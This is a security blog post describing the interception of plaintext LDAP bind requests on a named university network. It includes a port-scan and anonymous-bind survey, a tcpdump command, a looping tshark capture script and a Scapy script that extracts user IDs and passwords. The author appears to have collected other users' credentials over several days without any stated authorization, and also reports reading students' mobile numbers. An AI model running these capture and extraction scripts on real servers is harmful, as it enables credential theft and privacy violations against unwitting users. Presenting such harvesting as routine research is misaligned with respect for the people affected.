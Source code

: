 ```yaml
---
title: "Extracting Passwords in Plaintext by Sniffing LDAP Bind Requests"
description: In this blog, I’ll share how I retrieved plaintext passwords by intercepting unencrypted LDAP Bind Requests on a remote server where I gained root access.
date: 2024-09-28T07:09:31+05:30
image: assets/images/network_traffic_analysis.png
math: 
license: 
hidden: true
comments: true
draft: false
tags: ["cybersecurity", "infosec", "network", "sniffing", "tcpdump", "tshark", "wireshark", "ldap"]
categories: ["cybersecurity", "infosec", "network"]
---
```

## LDAP Servers on Network
I decided to investigate the LDAP servers within my institute's private network, which utilizes Class B private IP addresses.<br />
I employed [Gill-Singh-A/Port-Scanner](https://github.com/Gill-Singh-A/Port-Scanner) to scan for LDAP ports (389, 636, 3268, 3269) and discovered 49 devices with at least one of these ports open.<br />
![LDAP Port Scan](assets/images/port_scan.png)
## LDAP Anonymous Bind
Following that, I used [Gill-Singh-A/LDAP-Anonymous-Bind-Checker](https://github.com/Gill-Singh-A/LDAP-Anonymous-Bind-Checker) to assess LDAP Anonymous Bind support, finding that 32 devices allowed anonymous binding.<br />
![LDAP Anonymous Bind Check](assets/images/ldap_anonymous_bind_check.png)<br />
After some exploration, I discovered the LDAP server responsible for managing authentication requests for our Computer Center’s credentials.<br />
The server was identified by the hostname **ldap.cc.iitk.ac.in**, supported LDAP Anonymous Bind.
## Computer Center LDAP Server
After manually exploring **ldap.cc.iitk.ac.in**, I discovered that I could retrieve any student’s mobile number using a simple search query.<br />
![CC LDAP Student Information](assets/images/cc_ldap_student_info.png)<br />
However, what truly alarmed me was that the server was not utilizing SSL for data transmission over the network. This meant that all Computer Center credentials used for authenticating to services like Web Mail and SSH servers were being transmitted as plaintext, making them easily accessible to anyone intercepting the traffic.<br />
![LDAP Authentication](assets/images/ldap_authentication.png)
## Network Traffic Capture
To verify my suspicions, I launched **tcpdump** on a remote server at our institute where I had root access and where users can SSH in using their Computer Center credentials. I began intercepting the network traffic on that server. Specifically, I filtered for port 389 to capture only LDAP traffic.
```bash
sudo /usr/sbin/tcpdump -s 65535 -w network_traffic_capture.pcap 'tcp port 389'
```
After successfully logging into the server using my Computer Center credentials on another terminal, I stopped the network capture and downloaded the pcap file for further analysis.
## Network Traffic Analysis
After opening the pcap file in **Wireshark** and conducting some analysis, I was able to find my Computer Center user ID and password in plaintext within an LDAP Bind Request.<br />
![Network Traffic Analysis](assets/images/network_traffic_analysis.png)<br />
This confirmed my suspicions: the Computer Center credentials were indeed transmitted as plaintext.
## Capturing using tshark
Next, I created a simple bash script that utilized **tshark** to capture LDAP network traffic on the server and save it into a pcap file. The script processes the pcap file once it reaches 100 MB, filtering to include only LDAP Bind Requests and storing the results in my NFS (Network File System) Directory.
```bash
#! /bin/bash

index=0

while true; do
	/usr/sbin/tshark -w webhome.pcap -i 1 -f "tcp port 389" -a filesize:100000
	/usr/sbin/tshark -r webhome.pcap -R "frame contains \"ou=People,dc=iitk,dc=ac,dc=in\" and ldap.bindRequest" -w webhome_filtered_${index}.pcap
	chmod 600 webhome_filtered_${index}.pcap
	rm -f webhome.pcap
	((index++))
done
```
## Extracting Passwords from Capture File
After collecting LDAP Bind Requests for some days, I downloaded the processed capture file and created a simple Python script using [Scapy](https://scapy.net/) to extract the user IDs and their corresponding passwords. This allowed me to determine how many credentials I had successfully retrieved.
```python
#! /usr/bin/env python3

from sys import argv
from scapy.all import rdpcap, LDAP_BindRequest, TCP, LDAP
from colorama import Fore

packets = rdpcap(argv[1])              # argv[1] Network Capture File (.pcap)

for pkt in packets:
    if LDAP_BindRequest in pkt and pkt[TCP][LDAP][LDAP_BindRequest].authentication.val != b'':
        print(f"{Fore.CYAN}{pkt[TCP][LDAP][LDAP_BindRequest].bind_name.val.decode().split(',')[0].split('=')[1]}\t{Fore.RESET}=>\t{Fore.GREEN}{pkt[TCP][LDAP][LDAP_BindRequest].authentication.val.decode()}{Fore.RESET}")
```
The following was the output<br />
![Extraced Passwords](assets/images/passwords_extracted.png)<br />
## Conclusion
This investigation revealed significant security concerns regarding the transmission of sensitive data over unencrypted connections. It's crucial to implement proper security measures to protect user information in our digital landscape.<br />
As we navigate our digital landscape, it’s essential to ensure that proper security measures are in place to protect user information.